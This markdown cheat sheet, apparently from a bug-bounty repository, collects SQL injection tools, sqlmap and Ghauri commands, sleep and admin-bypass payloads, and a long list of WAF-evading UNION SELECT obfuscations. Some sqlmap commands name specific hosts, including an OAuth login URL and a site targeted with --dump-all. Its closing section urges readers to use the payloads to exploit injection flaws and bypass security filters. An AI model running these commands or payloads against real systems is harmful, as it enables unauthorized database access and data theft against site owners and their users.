 
---

### **SQL Injection Resources**

#### **1. Tools**
- **SqliSniper**:
  ```bash
  https://github.com/danialhalo/SqliSniper
  ```
- **Bypass WAF SQLMap**:
  ```bash
  https://github.com/gagaltotal/Bypass-WAF-SQLMAP/blob/master/WAF-SQLMap-Full
  ```

#### **2. Captcha Bypass**
- **HackerOne Report**:
  ```bash
  https://hackerone.com/reports/1018621
  ```

#### **3. SQL Injection Payloads**
- **Gist by v3rlly**:
  ```bash
  https://gist.github.com/v3rlly/6a81e4cb1de1ce00dc30890adf5db0cd?fbclid=IwAR2_cofODxhHoSPdvtNQ-3BdxN5Zyzx78As4DEOFaL281EUdSAfVkN7dl-M
  ```

#### **4. SQLMap Commands**
- **Basic SQLMap Command**:
  ```bash
  sqlmap -u "URL" --random-agent --tamper="between,randomcase,space2comment" -v 2 --dbs --level 5 --risk 3 --batch --smart
  ```
- **Advanced SQLMap Command**:
  ```bash
  sqlmap -u "https://login.wellhive.com/oauth2/default/v1/authorize?client_id=0oah0y4hsmM9UWgZi4h5&code_challenge=_xwMoSpRTma4yDsVmAIqv3kFhUaPM1_89TdG54bMKxE&code_challenge_method=S256&nonce=aeVdd3T7rvLMZBkGsNi1w8zv3Njl6BFhl6Igpblqbzx4eETCxzcK2HhBczzCZvpl&redirect_uri=https%3A%2F%2Fapp.wellhive.com%2Flogin%2Fcallback&response_type=code&state=HXwRnNUaVjQlrDyXuKZBCU0xXr1nxnWMLfDXQ7WVUOUDbbeaULFVCKe1V2SLkGpy&scope=openid%20email" --hex --skip-waf --dbs --risk 3 --level 5 --current-db Altibase --skip-waf --random-agent
  ```

#### **5. SQL Injection Techniques**
- **Defeating Length Filters**:
  ```bash
  https://kuldeep.io/posts/defeating-length-filters-to-dump-the-database-sqli/
  ```
- **MySQL Port Open**:
  ```bash
  https://medium.com/@konqi/exploiting-grafana-to-achieve-remote-command-execution-5eb0f99cb107
  ```
- **Sleep Payload**:
  ```bash
  - 0’XOR(if(now()=sysdate(),sleep(6),0))XOR’Z
  - 63770’XOR(if(now()=sysdate(),sleep(6),0))XOR’Z
  - a%3C%22+UNION+SELECT+SLEEP(20);--+-
  
  ```
  
- **PortSwigger SQL Injection Cheat Sheet**:
  ```bash
  https://portswigger.net/web-security/sql-injection/cheat-sheet
  ```
- **NotSoSecure SQL Injection Lab**:
  ```bash
  https://notsosecure.com/sql-injection-lab
  ```

#### **6. SQL Injection Payloads**
- **Information Schema**:
  ```bash
  '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
  ```
- **Admin Bypass**:
  ```bash
  admin%bf'or+1=1+--+&
  ```
- **XOR Sleep Payload**:
  ```bash
  'XOR(if(now()=sysdate(),sleep(33),0))OR'
  ```
- **Sitemap SQL Injection**:
  ```bash
  target[.]com/sitemap.xml?offset=1;SELECT IF((8303>8302),SLEEP(9),2356)#
  ```
- **SQLMap with Tamper**:
  ```bash
  sqlmap -r req3.txt -p commitment --force-ssl --level 5 --risk 3 --dbms=”MYSQL” --hostname --current-user --current-db --dbs --tamper=between --no-cast
  ```

#### **7. Bypass SQL Union Select**
- **Union Select Bypass Payloads**:
  ```bash
  /*!50000%55nIoN*/ /*!50000%53eLeCt*/
  %55nion(%53elect 1,2,3)-- -
  +union+distinct+select+
  +union+distinctROW+select+
  /**//*!12345UNION SELECT*//**/
  /**//*!50000UNION SELECT*//**/
  /**/UNION/**//*!50000SELECT*//**/
  /*!50000UniON SeLeCt*/
  union /*!50000%53elect*/
  +#uNiOn+#sEleCt
  +#1q%0AuNiOn all#qa%0A#%0AsEleCt
  /*!%55NiOn*/ /*!%53eLEct*/
  /*!u%6eion*/ /*!se%6cect*/
  +un/**/ion+se/**/lect
  uni%0bon+se%0blect
  %2f**%2funion%2f**%2fselect
  union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
  REVERSE(noinu)+REVERSE(tceles)
  /*--*/union/*--*/select/*--*/
  union (/*!/**/ SeleCT */ 1,2,3)
  /*!union*/+/*!select*/
  union+/*!select*/
  /**/union/**/select/**/
  /**/uNIon/**/sEleCt/**/
  +%2F**/+Union/*!select*/
  /**//*!union*//**//*!select*//**/
  /*!uNIOn*/ /*!SelECt*/
  +union+distinct+select+
  +union+distinctROW+select+
  uNiOn aLl sElEcT
  UNIunionON+SELselectECT
  /**/union/*!50000select*//**/
  0%a0union%a0select%09
  %0Aunion%0Aselect%0A
  %55nion/**/%53elect
  uni<on all="" sel="">/*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/
  %252f%252a*/UNION%252f%252a /SELECT%252f%252a*/
  %0A%09UNION%0CSELECT%10NULL%
  /*!union*//*--*//*!all*//*--*//*!select*/
  union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C
  /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/
  +UnIoN/*&a=*/SeLeCT/*&a=*/
  union+sel%0bect
  +uni*on+sel*ect+
  +(UnIoN)+(SelECT)+
  +(UnI)(oN)+(SeL)(EcT)
  +’UnI”On’+'SeL”ECT’
  +uni on+sel ect+
  +/*!UnIoN*/+/*!SeLeCt*/+
  /*!u%6eion*/ /*!se%6cect*/
  uni%20union%20/*!select*/%20
  union%23aa%0Aselect
  /**/union/*!50000select*/
  /^.*union.*$/ /^.*select.*$/
  /*union*/union/*select*/select+
  /*uni X on*/union/*sel X ect*/
  +un/**/ion+sel/**/ect+
  +UnIOn%0d%0aSeleCt%0d%0a
  UNION/*&test=1*/SELECT/*&pwn=2*/
  un?<ion sel="">+un/**/ion+se/**/lect+
  +UNunionION+SEselectLECT+
  +uni%0bon+se%0blect+
  %252f%252a*/union%252f%252a /select%252f%252a*/
  /%2A%2A/union/%2A%2A/select/%2A%2A/
  %2f**%2funion%2f**%2fselect%2f**%2f
  union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
  /*!UnIoN*/SeLecT+
  %6c%75%33%6b%79%31%33' AND 1=CAST((SELECT version()) AS int) --
  ```

#### **8. Automated SQL Injection Testing**
- **Ghauri**:
  ```bash
  cat sql | while read host do;do ghauri -u $host --batch --level=3  -b --current-user --current-db --hostname --dbs ;done
  ```
- **SQLMap Batch Testing**:
  ```bash
  sqlmap -m sql -batch --random-agent --level 5 --risk 3
  ```
- **SQLMap with Tamper**:
  ```bash
  python3 /opt/sqlmap/sqlmap -u "https://eneftee-black[.]market/news.php?id=2" --batch --dbms=mysql --random-agent --level 5 --risk 3 --tamper=space2comment --dump-all --threads 10
  ```

---

### **How to Use This Information**
1. **Tools**:
   - Use tools like SqliSniper and SQLMap to automate SQL injection detection and exploitation.

2. **Captcha Bypass**:
   - Study the HackerOne report to understand how to bypass CAPTCHA mechanisms.

3. **Payloads**:
   - Experiment with different SQL injection payloads to bypass WAFs and other security measures.

4. **Techniques**:
   - Use advanced techniques like UNION SELECT bypass and length filter bypass to exploit SQL injection vulnerabilities.

5. **Automation**:
   - Automate SQL injection testing using scripts and tools like Ghauri and SQLMap.

---
---
- https://github.com/jhaddix/tbhm/blob/master/06_SQLi.md

